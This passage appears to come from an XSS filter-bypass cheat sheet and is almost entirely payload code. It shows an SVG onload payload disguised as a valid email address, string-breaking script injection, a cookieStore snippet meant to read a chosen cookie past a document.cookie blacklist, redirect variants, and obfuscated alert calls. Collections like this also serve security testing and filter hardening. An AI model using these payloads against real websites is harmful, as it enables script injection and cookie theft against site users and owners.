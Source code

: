 ### Bypass email filter

([RFC compliant](http://sphinx.mythic-beasts.com/~pdw/cgi-bin/emailvalidate))

```javascript
"><svg/onload=confirm(1)>"@x.y
```

### Bypass document blacklist

```javascript
<div id = "x"></div><script>alert(x.parentNode.parentNode.parentNode.location)</script>
window["doc"+"ument"]
```

### Bypass document.cookie blacklist

This is another way to access cookies on Chrome, Edge, and Opera. Replace COOKIE NAME with the cookie you are after. You may also investigate the getAll() method if that suits your requirements.

```
Promise.resolve(window.cookieStore.get('COOKIE NAME')).then((cookieValue)=>{alert(cookieValue.value);});
```

### Bypass using javascript inside a string

```javascript
<script>
foo="text </script><script>alert(1)</script>";
</script>
```

### Bypass using an alternate way to redirect

```javascript
location="http://google.com"
document.location = "http://google.com"
document.location.href="http://google.com"
window.location.assign("http://google.com")
window['location']['href']="http://google.com"
```

### Bypass using an alternate way to execute an alert

From [@brutelogic](https://twitter.com/brutelogic/status/965642032424407040) tweet.

```javascript
window['alert'](0)
parent['alert'](1)
self['alert'](2)
top['alert'](3)
this['alert'](4)
frames['alert'](5)
content['alert'](6)

[7].map(alert)
[8].find(alert)
[9].every(alert)
[10].filter(alert)
[11].findIndex(alert)
[12].forEach(alert);
```
